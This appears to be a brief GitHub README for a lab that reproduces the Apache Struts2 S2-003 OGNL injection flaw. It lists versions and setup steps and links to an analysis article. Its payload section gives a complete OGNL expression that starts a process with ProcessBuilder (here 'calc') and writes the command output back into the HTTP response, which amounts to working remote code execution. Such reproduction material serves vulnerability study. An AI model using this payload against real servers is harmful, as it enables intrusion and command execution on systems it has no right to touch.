

## Struts2 S2-003

### Environment

Struts2 Version: `struts-2.0.1-all`

Tomcat: `8.5.53`

IDE: `idea 2020.1.1`

Open the project with idea, and readd all the jars at web/WEB_INF/lib.

### POC

### payload

`%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}`

### Reference

- [【Struts2-命令-代码执行漏洞分析系列】S2-003和S3-005](https://xz.aliyun.com/t/2044)

